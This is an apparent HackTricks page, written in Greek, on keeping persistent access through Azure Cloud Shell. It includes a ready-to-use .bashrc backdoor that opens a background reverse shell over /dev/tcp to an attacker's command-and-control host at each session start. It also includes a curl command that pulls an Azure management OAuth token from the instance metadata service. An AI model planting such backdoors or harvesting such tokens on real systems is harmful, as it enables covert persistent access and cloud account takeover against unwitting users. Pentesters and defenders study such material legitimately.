 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Το Azure Cloud Shell προσφέρει πρόσβαση μέσω γραμμής εντολών για τη διαχείριση πόρων Azure με μόνιμη αποθήκευση και αυτόματη πιστοποίηση. Οι επιτιθέμενοι μπορούν να εκμεταλλευτούν αυτό το χαρακτηριστικό τοποθετώντας backdoors στον μόνιμο κατάλογο αρχικής:

* **Persistent Storage**: Ο κατάλογος αρχικής του Azure Cloud Shell είναι τοποθετημένος σε ένα Azure file share και παραμένει ανέπαφος ακόμη και μετά την ολοκλήρωση της συνεδρίας.
* **Startup Scripts**: Αρχεία όπως το .bashrc εκτελούνται αυτόματα στην αρχή κάθε συνεδρίας, επιτρέποντας τη μόνιμη εκτέλεση όταν ξεκινά το cloud shell.

Example backdoor in .bashrc:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
Αυτή η πίσω πόρτα μπορεί να εκτελεί εντολές ακόμη και 5 λεπτά μετά την ολοκλήρωση του cloud shell από τον χρήστη.

Επιπλέον, ερωτήστε την υπηρεσία μεταδεδομένων του Azure για λεπτομέρειες και tokens της παρουσίας:
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
{{#include ../../../banners/hacktricks-training.md}}
